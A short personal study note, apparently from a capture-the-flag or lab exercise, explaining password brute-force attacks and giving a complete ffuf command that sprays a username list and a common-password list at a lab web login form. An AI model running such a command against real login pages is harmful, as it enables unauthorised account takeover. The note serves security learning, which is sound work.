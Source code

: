 ```yaml
---
title: Bruteforce
updated: 2022-11-23T14:25:33.0000000+04:00
created: 2022-11-23T13:55:12.0000000+04:00
---
```


Bruteforce
Wednesday, November 23, 2022
1:55 PM
A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

**When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file.**

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d **"username=W1&password=W2"** -H **"Content-Type: application/x-www-form-urlencoded"** -u <http://10.10.9.131/customers/login> -fc 200

